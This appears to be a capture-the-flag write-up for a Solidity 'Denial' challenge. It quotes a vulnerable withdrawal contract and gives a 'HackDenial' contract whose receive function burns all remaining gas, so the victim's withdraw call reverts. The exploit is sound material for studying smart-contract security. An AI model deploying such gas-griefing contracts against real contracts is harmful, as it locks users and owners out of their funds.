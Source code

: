 The `call` method here can invoke the `receive` method of a malicious contract at `partner` address. And this is where we're going to eat up all gas so that `withdraw` function `revert`s with out of gas exception.

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Solution:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

contract HackDenial {
    // gas burner
    uint256 n;
    function burn() internal {
        while (gasleft() > 0) {
            n += 1;
        }
    }

    receive() external payable {
        burn();
    }
}
```
